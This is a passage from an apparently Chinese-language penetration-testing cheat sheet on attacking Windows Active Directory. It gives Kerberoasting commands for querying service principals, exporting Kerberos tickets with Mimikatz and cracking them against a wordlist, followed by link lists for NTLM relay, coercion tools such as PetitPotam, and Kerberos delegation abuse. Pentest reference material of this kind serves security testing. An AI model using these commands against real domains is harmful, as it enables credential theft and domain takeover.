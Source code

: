```
setspn -T PENTEST.com -Q */*
```

从Mimikatz的RAM中提取获得的门票

```
kerberos::list /export
```

用rgsrepcrack破解

```
tgsrepcrack.py wordlist.txt 1-MSSQLSvc~sql01.medin.local~1433-MYDOMAIN.LOCAL.kirbi
```

##### 凭证盗窃

从搜集的密码里面找管理员的密码

##### NTLM relay

- [One API call away from Domain Admin](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)
- [privexchange](https://github.com/dirkjanm/privexchange/)
- [Exchange2domain](https://github.com/ridter/exchange2domain)

用于主动让目标机器发起NTLM请求的方法：

- [printerbug](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)
- [PetitPotam](https://github.com/topotam/PetitPotam)

Relay LDAP:

- [CVE-2019-1040-dcpwn](https://github.com/Ridter/CVE-2019-1040-dcpwn)

Relay AD CS/PKI:

- [AD CS/PKI template exploit](https://www.bussink.net/ad-cs-exploit-via-petitpotam-from-0-to-domain-domain/)

集成几个利用的工具：

- [Relayx](https://github.com/Ridter/Relayx)

内网445端口转发：

- [PortBender](https://github.com/praetorian-inc/PortBender)

##### Kerberos委派

- [Wagging-the-Dog.html](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
- [s4u2pwnage](https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/)
- [Attacking Kerberos Delegation](https://xz.aliyun.com/t/2931)
- [用打印服务获取域控](https://adsecurity.org/?p=4056)
- [Computer Takeover](https://www.harmj0y.net/blog/activedirectory/a-case-study-in-wagging-the-dog-computer-takeover/)
- [Combining NTLM Relaying and Kerberos delegation](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/)
- [CVE-2019-1040](https://dirkjanm.io/exploiting-CVE-2019-1040-relay-vulnerabilities-for-rce-and-domain-admin/)
